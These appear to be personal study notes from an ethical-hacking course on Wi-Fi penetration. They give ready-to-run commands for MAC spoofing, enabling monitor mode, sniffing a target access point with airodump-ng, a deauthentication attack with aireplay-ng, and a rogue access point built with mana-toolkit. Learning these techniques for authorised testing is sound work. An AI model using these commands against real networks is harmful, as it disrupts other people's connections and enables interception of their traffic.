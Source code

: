 # network penetration

https://www.udemy.com/learn-ethical-hacking-from-scratch/learn/v4/t/lecture/5305122?start=0

## monitor mode method 1

```
# stop interface
ifconfig wlan0 down
# start interface
ifconfig wlan0 up
# change mac address of interface
macchanger --random wlan0
# start monitor mode on interface
airmon-ng start wlan0
# list interfaces (reports monitor mode)
iwconfig # interface optional
```

interface has monitor mode or managed mode

- managed mode filters on packets with appropriate mac address
- monitor mode will catch all packets

if airmon-ng does not work, you can enable monitor mode by trying

# method 2

```
iwconfig wlan0 down
iwconfig wlan0 mode monitor
iwconfig wlan0 up
iwconfig
```

# method 3
```
airmon-ng check kill # shut down processes that may interfere
iwconfig wlan 0 down
airmon-ng start wlan0
```

# packet sniffing

```
airodump-ng wlan0mon
airodump-ng --channel 11 --bssid <macaddroftargetap> --write test-tempestad wlan0mon
```


# deauth attack
```
aireplay-ng --deauth 1000 -a <bssid> -c <client_mac_addr> wlan0mon
```

## honeypot

```
apt-get install mana-toolkit
# ensure config below has correct interfaces listed, update SSID if needed
/etc/mana-toolkit/hostapd-mana.conf
# ensure script below has correct interface in phy var
/usr/share/mana-toolkit/run-man/start-nat-simple.sh
# run cmd
bash /usr/share/mana-toolkit/run-man/start-nat-simple.sh
# from here you can connect to fake access point on another machine
```

